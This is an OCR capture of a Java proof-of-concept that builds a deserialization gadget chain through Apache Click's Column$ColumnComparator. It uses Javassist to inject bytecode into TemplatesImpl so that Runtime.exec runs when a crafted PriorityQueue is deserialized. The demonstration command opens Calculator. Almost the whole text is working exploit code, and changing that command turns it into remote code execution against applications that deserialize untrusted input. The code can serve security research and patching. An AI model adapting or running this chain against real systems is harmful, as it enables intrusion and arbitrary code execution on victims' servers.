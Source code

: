 ```java

    public static byte[][] evilByteCodes() throws Exception {

        // Generate malicious bytecodes.
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("ClickExploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        return new byte[][]{ctClassBytes};
    }

    public static void main(String[] args) throws Exception {

        // Instantiate the class and set properties.
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", evilByteCodes());
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        // Initialize PriorityQueue.
        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        // Reflection puts TemplatesImpl in PriorityQueue.
        setFieldValue(queue, "queue", new Object[]{templatesImpl, templatesImpl});

        Class<?> clazz = Class.forName("org.apache.click.control.Column$ColumnComparator");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Column.class);
        constructor.setAccessible(true);

        Column column = new Column("outputProperties");
        // To avoid null pointers when deserializing comparisons, set a Table property for column.
        column.setTable(new Table());
        Comparator comparator = (Comparator) constructor.newInstance(column);

        // Reflection writes BeanComparator into PriorityQueue.
        setFieldValue(queue, "comparator", comparator);
        Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field2.setAccessible(true);
        field2.set(queue, comparator);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(queue);
            objectOutputStream.close();

            // Deserialization
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.p
rintStackTrace();
        }
    }
}
```
